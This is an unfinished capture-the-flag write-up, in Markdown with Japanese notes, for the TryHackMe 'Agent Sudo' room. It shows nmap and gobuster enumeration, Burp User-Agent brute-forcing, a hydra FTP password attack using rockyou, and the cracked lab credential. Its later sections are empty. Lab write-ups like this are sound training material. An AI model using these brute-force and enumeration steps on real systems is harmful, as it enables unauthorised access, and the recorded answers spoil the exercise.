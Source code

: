 # TryHackMe - Agent Sudo
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Target Info
- IP: 10.10.45.55
- OS: 

## 1. Enumeration

### nmap

```
sudo nmap -sV -O 10.10.45.55
Password:
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-07 12:42 +0900
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.45.55
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
```

### 80port access

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

- エージェントRから各エージェントへ。サイトにアクセスするときは自身のUAをコードネームとして使って
- コメントなどを確認したがこれ以上の情報はなし

### gobuster

- gobuster dir -u http://10.10.45.55 -w common.txt http

```
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 218]
/server-status        (Status: 403) [Size: 276]
```
- index.phpは初期ページと同じ
- 特に手がかりなし
- もう一つ上のワードリストで攻撃してみる

```
gobuster dir -u http://10.10.45.55 -w raft-large-words.txt http

```

### user-agentを探す
- おそらくUAに任意の値を入れるとユーザのページに行くことができる。
- Burpsuiteを使用して、リクエストを改竄し総当たり攻撃する
- Cのユーザを発見。名前はchris
- http://10.10.45.55/agent_C_attention.php

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

- chrisのユーザはパスワードが弱いらしい。
- そしてJの存在も仄めかされてる
- 念の為Jのページも確認。agent_J_attentionはなし

### FTP
- hydra -l chris -P rockyou.txt -f -o found.txt ftp://10.10.45.55
- [21][ftp] host: 10.10.45.55   login: chris   password: crystal
- ふふん

```
lftp -u chris,crystal 10.10.45.55
lftp chris@10.10.45.55:~> ls
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

### To_agentJ

```
cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```
- このエーリアンの写真は偽物。Jユーザーの中にパスワードとかのファイルがあるよってことで




## 2. Exploitation


## 3. Privilege Escalation

## 4. Flags
